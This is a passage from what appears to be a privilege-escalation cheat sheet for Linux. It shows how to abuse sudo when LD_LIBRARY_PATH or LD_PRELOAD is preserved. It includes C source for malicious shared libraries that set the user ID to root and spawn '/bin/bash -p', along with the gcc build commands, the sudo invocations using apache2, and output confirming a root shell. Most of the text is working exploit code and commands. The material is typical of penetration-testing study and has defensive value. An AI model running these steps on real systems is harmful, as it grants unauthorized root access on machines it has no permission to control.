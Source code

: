 - Create a file (library_path.c) with the following contents

		#include <stdio.h
		#include <stdlib.h
		static void hijack() __attribute__((constructor));
		void hijack() {
			unsetenv("LD_LIBRARY_PATH");
			setresuid(0,0,0);
			system("/bin/bash -p");
		}

- Compile library_path.c into `libcrypt.so.1`:

		gcc -o libcrypt.so.1 -shared -fPIC library_path.c

- Run apache2 using sudo, while setting the LD_LIBRARY_PATH environment variable to the current path (where we compiled library_path.c)

		sudo LD_LIBRARY_PATH=. apache2  

		id
		uid=0(root) gid=0(root) groups=0(root)

## EXPLOIT LD_PRELOAD OPTION
`LD_PRELOAD` is an environment variable which can be set to the path of a shared object (.so) file.

When set, the shared object will be loaded before any others. By creating a custom shared object and creating an `init()` function, we can execute code as soon as the object is loaded.

### Limitations:
- LD_PRELOAD will not work if the real user ID is different  from the effective user ID.
- sudo must be configured to preserve the LD_PRELOAD
- environment variable using the env_keep option.

### Exploitation
- Create a file (preload.c) with the following contents

		#include <stdio.h	
		#include <sys/types.h	
		#include <stdlib.h	
		void _init() {
		unsetenv("LD_PRELOAD");
		setresuid(0,0,0);
		system("/bin/bash -p");
		}

- Compile preload.c to preload.so

		gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

Run any allowed program using sudo, while setting the LD_PRELOAD environment variable to the full path of the preload.so file

		sudo LD_PRELOAD=/tmp/preload.so apache2

		id
		uid=0(root) gid=0(root) groups=0(root)
